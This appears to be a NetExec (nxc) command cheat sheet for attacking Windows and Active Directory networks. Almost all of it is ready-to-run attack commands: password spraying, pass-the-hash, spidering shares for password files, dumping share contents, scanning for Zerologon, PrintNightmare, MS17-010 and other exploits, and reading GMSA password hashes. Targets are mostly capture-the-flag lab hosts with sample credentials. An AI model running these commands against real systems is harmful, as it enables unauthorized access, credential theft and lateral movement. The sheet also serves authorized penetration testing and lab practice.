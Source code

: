 ## Wiki:
For more commands and all capabilities.
```text
https://www.netexec.wiki/
```
## Supported Protocols:
All can be used for password spraying etc.
```bash
mssql               
smb                
ftp                 
ldap               
nfs                 
rdp                
ssh                
vnc                
winrm             
wmi                
```
## Supported Auth Methods:
```bash
#Null Session (SMB Anonymous)
nxc smb 172.16.139.3 -u '' -p ''

#Default User/Pass:
nxc smb 172.16.139.3 -u john -p 'lol123!'

#NTLM:

nxc smb dc01.rustykey.htb -u 'john' -H 3135834fa2e5dcdc4367de1c9d0784a3

nxc smb dc01.rustykey.htb -u 'john' -H HASH:HASH

#Kerberos Ticket, requires a valid ticket to be present in klist:
nxc smb dc.rustykey.htb -k --use-kcache
```
---
## Command Cheat Sheet:

### Password Spraying:
```bash
#SMB example with userlist:
nxc smb 172.16.139.3 -u knownusernames.txt -p Welcome1
```
---
### Verifying validity of found credentials with SMB
```bash
#Shows if credentials are valid for SMB auth + Displays the hostname of the target 
nxc smb 172.16.139.3 -u john -p 'lol123!'

#Can also be ran across a subnet for password re-use possibilites.
nxc smb 172.16.139.0/24 -u john -p 'lol123!'
```
---
### SMB - Domain Enumeration:
```bash
#list shares + the user's access rights to said shares (R/W):
nxc smb dc01.mirage.htb -u john -p 'lol123!' --shares

#enumerate domain users:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --users

#enumerate domain groups:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --groups

#get domain password policy:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --pass-pol

```
---
### SMB - Spidering SMB Shares:
```bash
#Standard Spider on a selected share using pattern for keyword to search for:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --spider 'Department Files' --content --pattern "passw"

#Search C Drive for pattern:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --spider C\$ --pattern txt

#Spider Plus Share Enumeration:
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M spider_plus

#Dump all files after spidering:
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M spider_plus -o DOWNLOAD_FLAG=True
```
---
### SMB - Scanning for Common Vulns:
```bash
#Zerologon:
nxc smb dc01.mirage.htb -u '' -p '' -M zerologon

#noPAC:
nxc smb dc01.mirage.htb -u '' -p '' -M nopac

#PrintNightmare:
nxc smb dc01.mirage.htb -u '' -p '' -M printnightmare

#SMBGhost:
nxc smb dc01.mirage.htb -u '' -p '' -M smbghost

#MS17-010: 
nxc smb dc01.mirage.htb -u '' -p '' -M ms17-010

#NTLM Reflection - CVE-2025-33073 (Requires Creds):
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M ntlm_reflection
```
---
### LDAP - Enumeration:
```bash
#Test creds for LDAP bind:
nxc ldap 10.10.10.0/24 -u john -p 'lol123!'

#Get domain SID:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' --get-sid

#Get User Descriptions for password hunting:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' -M get-desc-users

#Get All Admin users:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' --admin-count

#Get DC IPs and Domain Trusts:
nxc ldap 10.10.14.23 -u john -p 'lol123!' --dc-list

#Extract subnets:
nxc ldap 10.10.14.23 -u john -p 'lol123!' -M get-network

#Find Misconfigured Delegations:
nxc ldap 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! --find-delegation
```
---
### LDAP - DACL and Delegations: 

##### Read GMSA if we have the ACL right:
```bash
#Retrieving password hash with ReadGMSAPassword priv:
nxc ldap ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$' --gmsa
```
#### Find Misconfigured Delegations:
```bash
#Finds all misconfigured delegations in the domain:
nxc ldap 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! --find-delegation

#Finds all users and computers with Unconstrained Delegation flag:
nxc ldap 192.168.0.104 -u harry -p pass --trusted-for-delegation
```
#### Read DACL rights on one or more targets:
```bash
nxc ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=Administrator ACTION=read
```
---
### LDAP - Running BloodHound Collector
```bash
nxc ldap dc01.administrator.htb -d administrator.htb -u Olivia -p ichliebedich --dns-server 10.129.61.1 --bloodhound -c All

#Collect the data from appointed zip location after it runs.
```
---
## MISC:
### NFS Share Enumeration in NXC:
```bash
#list all shares:
nxc nfs 10.129.254.128 --shares 

#List share content:
nxc nfs 10.129.254.128 --share '/MirageReports' --ls '/'
```
---
